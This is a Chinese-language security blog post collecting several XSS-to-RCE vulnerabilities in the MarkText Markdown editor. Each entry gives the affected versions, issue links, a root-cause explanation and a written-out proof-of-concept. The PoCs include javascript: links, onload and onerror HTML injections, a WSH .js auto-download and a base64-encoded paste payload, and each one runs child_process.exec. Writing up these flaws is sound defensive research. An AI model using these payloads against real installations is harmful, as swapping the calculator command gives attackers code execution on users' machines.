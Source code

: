 ```yaml
---
title: Markdown editor CVE of Marktext
date: 2023-09-13 09:50:00
updated: 2023-09-13 18:13:00
tags: [security]
category: Security
---
```


#### 无CVE编号 XSS2RCE
> https://github.com/marktext/marktext/issues/2601
> https://github.com/marktext/marktext/commit/0dd09cc6842d260528c98151c394c5f63d733b62

影响 <= 0.16.3 的marktext版本，点击链接触发。

POC：
```
<a href="javascript:require('child_process').exec('open -a Calculator')" >evil1</a>

[evil2](javascript:require('child_process').exec('open -a Calculator'))
```
是a标签的`href`调用`javascript`伪协议触发XSS导致RCE。
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913162316.png)

#### CVE-2021-29996 XSS2RCE
> https://github.com/marktext/marktext/issues/2548

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```
```<style/onload=require('child_process').exec('calc')>

```

漏洞发现者是在Win环境复现的，在MacOS上复现不出来，但Win上可以。注意，这个多出来的换行是必须的，否则无法复现。

漏洞原理是在markdown语法中，在三个反引号后的内容为代码块的语言。而这里作为语言输出的内容可以被当作HTML标签渲染，能完成打开md文件就RCE。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913164816.png)

#### CVE-2022-24123 XSS2RCE
> https://github.com/marktext/marktext/issues/2946
> 这个洞是Vidar-Team的学长@e99p1ant挖到的洞，他的博客也有对应的分析
> https://github.red/security-bounty-thought/

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```mermaid
sequenceDiagram
 B ->> S: <img src=1 onerror="require('child_process').exec('open /System/Applications/Calculator.app')">
 hello -> B: 
```

Mermaid图标功能会将输入当作HTML解析导致的。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913165551.png)

#### CVE-2022-25069
> https://github.com/marktext/marktext/issues/2990

影响 <= 0.16.3 的marktext版本，粘贴触发。

POC:
```
<table><tr><img src onerror="require('child_process').exec('calc.exe')"></tr></table>
```

漏洞原因是`table`标签内没有对HTML进行转义，从而导致能插入`img`标签并且渲染
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913170743.png)


#### CVE-2023-1004 RCE
> https://github.com/marktext/marktext/issues/3575

影响 <= 0.17.1 的marktext版本，只存在于Windows，点击链接触发。

POC：
poc.html

```html
<!-- auto download !-->
<html>
<script>
    var blob = new Blob(['var WshShell = new ActiveXObject("WScript.Shell");var ret = WshShell.run("calc");if (ret == 0)WScript.Echo("You were hacked.");WScript.Quit();'],{type:'application/js'});
    var a = document.createElement('a');
    a.href = window.URL.createObjectURL(blob);
    a.download =  'poc.js';
    a.click();
</script>
</html>

<!-- click to download !-->
<a href="http://127.0.0.1:8000/poc.js" download="poc.js">CLICK~~</a>
```

poc.js

```js
var WshShell = new ActiveXObject("WScript.Shell");
var ret = WshShell.run("calc");
if (ret == 0)
    WScript.Echo("You were hacked.")
WScript.Quit();
```

漏洞是因为Marktext支持加载 `.js`后缀的文件，在Windows上会被识别为WSH（Windows Script Host）。要求就是本地要有恶意的`js`文件，可以考虑通过点击下载的方式也可以直接放在打包好的文件夹中，触发条件比较复杂。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913152827.png)



#### CVE-2023-2318 XSS2RCE
> **[CVE-2023-2318](https://github.com/advisories/GHSA-jv63-mj7w-v6v9 "CVE-2023-2318")**

影响 <= 0.17.1 的marktext版本，粘贴触发。

POC: 
```
p = btoa(`require("child_process").exec("open -a Calculator")`);
btoa(encodeURIComponent(`[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;</a>)`))
```

```
[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;</a>)
```

将POC粘贴到编辑器

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913104923.png)

主要思路是MarkText会在用户粘贴时，检查剪贴板数据，尝试将HTML标签转换成Markdown，然后再生成HTML来进行Markdown的预览。

src/muya/lib/contentState/pasteCtrl.js

```
const links = Array.from(tempWrapper.querySelectorAll('a'))
for (const link of links) {
  const href = link.getAttribute('href')
  const text = link.textContent   // [1]
  if (URL_REG.test(href) && href === text) {
    const title = await getPageTitle(href)
    if (title) {
      link.innerHTML = sanitize(title, PREVIEW_DOMPURIFY_CONFIG, true)
    } else {
      const span = document.createElement('span')   // [2]
      span.innerHTML = text   // [3]
      link.replaceWith(span)
    }
  }
}
```

这段代码会遍历所有a标签，如果href和textContent相同，那么就会执行`getPageTitle`。

```
export const getPageTitle = url => {
  // No need to request the title when it's not url.
  if (!url.startsWith('http')) {
    return ''
  }
  // No need to request the title when off line.
  if (!isOnline()) {
    return ''
  }

  const req = new XMLHttpRequest()
  let settle
  const promise = new Promise((resolve, reject) => {
    settle = resolve
  })
  const handler = () => {
    if (req.readyState === XMLHttpRequest.DONE) {
      if (req.status === 200) {
        const contentType = req.getResponseHeader('Content-Type')
        if (/text\/html/.test(contentType)) {
          const { response } = req
          if (typeof response === 'string') {
            const match = response.match(/<title>(.*)<\/title>/)
            return match && match[1] ? settle(match[1]) : settle('')
          }
          return settle('')
        }
        return settle('')
      } else {
        return settle('')
      }
    }
  }
  const handleError = (e) => {
    settle('')
  }
  req.open('GET', url)
  req.onreadystatechange = handler
  req.onerror = handleError
  req.send()

  // Resolve empty string when `TIMEOUT` passed.
  const timer = new Promise((resolve, reject) => {
    setTimeout(() => {
      resolve('')
    }, TIMEOUT)
  })

  return Promise.race([promise, timer])
}
```

而getPageTitle的作用的请求页面并且获取页面标题，因此POC中构造了一个href和textContent值相同的标签。

当找不到标题时，根据代码`const span = documnet.createElement('span')`，会创建`span`元素，并且将`a`标签的`textContent`分配给`span.innerHTML`，所以就可以控制`textContent`为`http://1:1/#<svg><svg onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))>`，使代码进入找不到标题，进而控制`span.innerHTML`，完成XSS。